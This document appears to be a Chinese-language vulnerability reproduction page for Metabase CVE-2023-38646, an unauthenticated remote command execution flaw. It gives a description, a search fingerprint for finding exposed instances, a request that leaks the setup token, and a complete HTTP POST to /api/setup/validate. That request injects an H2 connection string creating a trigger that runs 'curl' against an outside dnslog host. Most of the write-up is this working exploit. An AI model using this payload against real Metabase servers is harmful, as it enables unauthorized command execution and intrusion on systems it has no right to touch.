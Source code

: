 # Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

<a-checkbox checked>Metabase</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Metabase"</a-checkbox></br>

## 漏洞复现

登录页面



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347-1913963.png)


验证POC

```http
/api/session/properties
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690629948797-84b0517c-1343-4295-8d06-db47be80b46e.png)

```http
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690629991461-bfe3da60-a73a-4d73-b630-f125c3e536ff.png)